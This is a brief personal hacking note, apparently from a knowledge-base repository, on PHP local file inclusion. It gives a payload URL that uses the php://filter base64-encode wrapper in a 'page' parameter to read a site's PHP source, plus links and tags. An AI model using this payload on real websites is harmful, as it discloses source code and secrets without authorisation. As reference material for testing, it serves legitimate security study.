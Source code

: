 # php LFI include PHP filter URL base 64 encode
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
php://filter/convert.base64-encode/resource=
```

# References
- [20221003150581](/zet/20221003150581/README.md) php LFI include PHP filter URL
- ~/kb/hacking/php/lfi.md

Tags:
    #assorted #hacking #lfi
